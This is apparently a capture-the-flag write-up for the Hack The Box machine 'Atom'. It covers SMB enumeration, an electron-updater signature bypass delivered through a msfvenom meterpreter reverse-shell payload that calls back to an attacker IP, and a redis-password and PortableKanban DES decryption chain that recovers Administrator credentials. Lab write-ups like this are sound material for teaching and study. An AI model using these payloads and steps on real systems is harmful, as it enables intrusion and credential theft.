

```
PORT   STATE SERVICE VERSION
PORT      STATE         SERVICE           VERSION
80/tcp    open          http              Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp   open          msrpc             Microsoft Windows RPC
443/tcp   open          ssl/http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
445/tcp   open          microsoft-ds      Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
```
## User

Port 445 is open which is samba, so let's have a look at it.

```
smbclient -L 10.10.10.237
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Software_Updates Disk      
SMB1 disabled -- no workgroup available
```

We can see a share called `Software_Updates` so we open it:

```
smbclient //atom.htb/Software_Updates
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jun 10 12:06:37 2021
  ..                                  D        0  Thu Jun 10 12:06:37 2021
  client1                             D        0  Thu Jun 10 12:06:37 2021
  client2                             D        0  Thu Jun 10 12:06:37 2021
  client3                             D        0  Thu Jun 10 12:06:37 2021
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 07:18:08 2021
```

A maybe interesting pdf?:
```
smb: \> get UAT_Testing_Procedures.pdf
```

UAT_Testing_Procedures.pdf:
```
What is Heed ?


Note taking application built with electron-builder which helps users in taking important
notes.

[...]

What about QA ?


We follow the below process before releasing our products.

1. Build and install the application to make sure it works as we expect it to be.

2. Make sure that the update server running is in a private hardened instance. To
initiate the QA process, just place the updates in one of the "client" folders, and 
the appropriate QA team will test it to ensure it finds an update and installs it
correctly.

3. Follow the checklist to see if all given features are working as expected by the
developer.
```

Since they mention the electron-builder we searched for a vulnerability and quickly found [this](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html).

So we should be able to provide a malicious `.exe` with a manipulated `latest.yml` file through the samba-share client folders.

First we create our executable like this:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f exe > meterpreter.exe
```
Now we only need a corresponding `latest.yml`.

The version can be anything higher than "1.0.0", the path is the file name with an `'` added. And we can calculate the sha512 like this:

```bash
shasum -a 512 h\'eedv1-Setup-1.0.1.exe | cut -d " " -f1 | xxd -r -p | base64
```

So this is the final `latest.yml` that we came up with:

```yml
version: 1.0.1
path: h'eedv1-Setup-1.0.1.exe
sha512: Ow//J8c9ibjF54ouu+ajnkMO0XfqY0m+uMWhaUdEH6mlBP6iizaw0J0KnfMMeeecSawMhGH4kutK8gdQpLyGpg==
```

After setting up a listener in msfconsole using the module `exploit/multi/handler` you can copy your files `latest.yml` and `h'eedv1-Setup-1.0.1.exe` to the smb-share and catch your meterpreter.


## Root


Enumerating the system we found the password `kidvscat_yes_kidvscat` for the `redis`-server:
```
meterpreter > cat C:\Program Files\redis\redis.windows-service.conf
# Redis configuration file example
requirepass kidvscat_yes_kidvscat
```
So let's try to connect to that server.
(Get the redis-cli via `sudo apt-get install redis-cli`)

Now connect to the server with the password we found earlier:
```bash
redis-cli -h atom.htb -a kidvscat_yes_kidvscat
```

With `keys *` and `get \[...\]` you can dumb all the keys:



This gives us the encrypted password of the admin: `Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi`.

As we found a `PortableKanban` in `C:\Users\jason\Downloads\` we can use [this exploit](https://www.exploit-db.com/exploits/49409):
```python
from des import *
import base64


hash = "Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"
hash = base64.b64decode(hash.encode('utf-8'))
key = DesKey(b"7ly6UznJ")
print(key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
```
Executing the python script you'll get the credentials `Administrator:kidvscat_admin_@123`:
```bash
└─$ python3 test.py           
kidvscat_admin_@123
```

With these credentials you can login as Administrator via smb with `xdg-open smb://atom.htb/` or like above to grab the root flag.
